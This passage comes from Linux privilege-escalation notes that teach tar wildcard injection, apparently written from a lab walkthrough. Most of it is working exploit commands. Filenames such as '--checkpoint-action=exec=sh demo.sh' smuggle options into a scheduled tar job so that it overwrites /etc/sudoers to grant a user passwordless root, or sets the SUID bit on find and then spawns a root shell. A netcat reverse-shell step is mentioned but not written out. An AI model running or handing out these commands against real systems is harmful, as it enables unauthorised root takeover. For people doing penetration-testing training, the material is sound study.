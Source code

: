 **Again generate netcat reverse shell payload as done above.**
![[linux_privesc44.png]]

**And again repeat the above step as shown in the image.**
![[linux_privesc45.png]]


>Then get back to netcat shell for the victim’s reverse connection and you will notice after 1 minute you get victim’s netcat session.
```shell
whoami
cd /root
pwd
```


Hence, the target can be easily exploited if he makes a usage tar archive program either by scheduling a job via command or through bash script.
![[linux_privesc46.png]]


### Tar Wildcard Injection (2nd method)

**Exploit Sudoers file for Privilege Escalation**

   - Suppose you have victim’s machine as a non-root user and for privilege escalation either take root access or try to give sudo right to non-root user by adding him sudoers file.
   - Thus you can take help of following commands.
```shell
echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
echo "" > "--checkpoint-action=exec=sh demo.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```


>With the help of above command we had tried to give root permission to the user: ignite. After 1 minute passed we successfully owned the root account.
```shell
sudo -l
sudo bash
whoami
```

![[linux_privesc47.png]]

### Tar Wildcard Injection (3rd method)

**Privilege Escalation-Give SUID permission to system binaries**

Suppose you have victim’s machine as the non-root user and for privilege escalation, you can try to enable SUID bit for any system binaries and likewise above again,

>you can take help of the following command for obtaining root access.
```shell
echo "chmod u+s /usr/bin/find" > test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
ls -al /usr/bin/find
find f1 -exec "whoami" \;
root
find f1 -exec "/bin/sh" \;
id
whoami
```
